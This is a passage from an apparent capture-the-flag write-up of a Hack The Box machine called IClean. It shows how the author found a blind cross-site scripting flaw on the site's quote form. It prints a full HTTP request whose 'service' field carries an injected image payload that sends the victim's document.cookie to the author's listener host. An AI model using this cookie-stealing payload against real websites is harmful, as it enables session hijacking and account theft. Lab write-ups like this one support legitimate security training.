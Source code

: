 ![Homepage](/assets/img/Iclean/Iclean_01.png)

Looking furhter on this webpage i couldn't find much dynamic content other than the quote page. After doing some testing i found out it was possible to perform a blind cross site scripting attack on this page. By sending the following request.

```
POST /sendMessage HTTP/1.1
Host: capiclean.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 151
Origin: http://capiclean.htb
Connection: close
Referer: http://capiclean.htb/quote
Upgrade-Insecure-Requests: 1

service=Carpet+Cleaning&service=Tile+%26+Grout&service=<img%20src=x%20onerror=fetch("http://10.10.16.69/TEST?"%2bdocument.cookie);>&email=test%40me.com
```
